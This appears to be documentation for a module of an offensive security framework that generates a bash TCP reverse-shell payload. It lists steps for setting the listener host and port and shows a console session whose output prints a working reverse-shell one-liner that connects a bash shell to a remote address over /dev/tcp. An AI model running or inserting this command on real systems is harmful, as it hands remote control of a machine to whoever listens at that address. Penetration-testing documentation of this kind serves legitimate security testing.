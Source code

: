 ## Description

Module generates payload that creates interactive tcp reverse shell by using bash one-liner. 

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/cmd/bash_reverse_tcp`
  3. Do: `set lhost 192.168.1.4`
  4. Do: `set lport 4321`
  5. Do: `run`
  6. Module generates bash tcp reverse shell payload

## Scenarios

```
rsf > use payloads/cmd/bash_reverse_tcp
rsf (Bash Reverse TCP) > set lhost 192.168.1.4
[+] lhost => 192.168.1.4
rsf (Bash Reverse TCP) > set lport 4321
[+] lport => 4321
rsf (Bash Reverse TCP) > run
[*] Running module...
[*] Generating payload
bash -i >& /dev/tcp/192.168.1.4/4321 0>&1
```
